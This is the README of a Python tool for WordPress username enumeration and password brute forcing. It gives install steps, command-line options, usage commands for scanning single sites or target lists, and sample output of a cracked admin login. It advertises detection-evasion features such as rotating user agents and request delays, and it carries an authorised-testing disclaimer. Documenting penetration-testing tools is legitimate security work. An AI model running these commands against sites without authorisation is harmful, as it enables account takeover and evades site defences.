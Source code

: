 # WordPress Username Enumeration and Password Brute Force Tool

A powerful Python-based tool for WordPress security testing. This tool efficiently enumerates WordPress usernames and performs targeted password brute force attacks using common password patterns.

Created by Chirag Artani from [3rag.com](https://3rag.com)

## Features

- **Username Enumeration**: Discovers WordPress usernames through multiple methods:
  - Author page enumeration (`/?author=X`)
  - WordPress REST API (`/wp-json/wp/v2/users`)

- **Intelligent Password Testing**: Tests discovered usernames against:
  - The username itself as password
  - Username with common suffixes (123, admin123, etc.)
  - Common default passwords

- **Performance Optimized**:
  - Multi-threading for concurrent password attempts
  - Site-level parallelism for testing multiple WordPress installations
  - Smart cancellation of remaining password attempts once credentials are found

- **Stealth Features**:
  - Rotating user agents to avoid detection
  - Configurable delays between requests
  - Session management for efficient requests

- **User-Friendly Output**:
  - Real-time status updates with timestamps
  - Color-coded output for easy reading
  - Immediate recording of successful logins
  - Comprehensive summary reports

## Installation

```bash
# Clone the repository
git clone https://github.com/chiragartani/wp-enum-brute.git
cd wp-enum-brute

# Install required dependencies
pip install requests colorama
```

## Usage

### Basic Usage

```bash
# Scan a single WordPress site
python wp_enum_brute.py -t example.com

# Scan multiple sites from a file
python wp_enum_brute.py -l targets.txt
```

### Command Line Arguments

```
-t, --target       Target URL (e.g., http://example.com)
-l, --url-list     File containing list of target URLs (one per line)
-o, --output       Output file for successful logins (default: wp_successful_logins.txt)
-w, --workers      Number of concurrent password attempts per target (default: 10)
-s, --site-workers Number of concurrent sites to scan (default: 5)
-v, --verbose      Enable verbose output (shows failed attempts)
--timeout          Request timeout in seconds (default: 10)
--only-enumerate   Only enumerate usernames, skip password brute force
--delay            Delay between requests in seconds (default: 0)
```

### Examples

```bash
# Only enumerate usernames without brute forcing passwords
python wp_enum_brute.py -t example.com --only-enumerate

# Scan with higher concurrency (20 password attempts, 10 sites at once)
python wp_enum_brute.py -l targets.txt -w 20 -s 10

# Add delay between requests to avoid detection (500ms)
python wp_enum_brute.py -l targets.txt --delay 0.5

# Save results to a specific file
python wp_enum_brute.py -t example.com -o results/wordpress_logins.txt

# Show all login attempts (verbose mode)
python wp_enum_brute.py -t example.com -v
```

## Output Example

```
[10:15:23] [INFO] Enumerating usernames from http://example.com
[10:15:24] [SUCCESS] Found username via redirect: admin on http://example.com
[10:15:25] [SUCCESS] Found username in body: editor on http://example.com
[10:15:26] [INFO] Found 2 unique username(s) on http://example.com: admin, editor
[10:15:26] [INFO] Starting brute force against 2 username(s) on http://example.com with 10 workers
[10:15:26] [INFO] Queuing 15 passwords for username 'admin' on http://example.com
[10:15:26] [INFO] Queuing 15 passwords for username 'editor' on http://example.com
[10:15:28] [SUCCESS] ✓ SUCCESS: http://example.com - admin:admin123
[10:15:33] [INFO] Brute force completed on http://example.com. 17 attempts. 1 successful logins.

==================================================
[10:15:33] [SUCCESS] SUMMARY - Successful logins for http://example.com:
  ✓ http://example.com - admin:admin123
[10:15:33] [INFO] Results saved to wp_successful_logins.txt
==================================================
```

## Ethical Usage

This tool is intended for legitimate security testing with proper authorization. Unauthorized testing against websites you don't own is illegal and unethical. Always:

- Get written permission before testing
- Use responsibly and ethically
- Follow responsible disclosure practices

## Disclaimer

This tool is provided for educational and authorized penetration testing purposes only. The author is not responsible for any misuse or damage caused by this tool.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
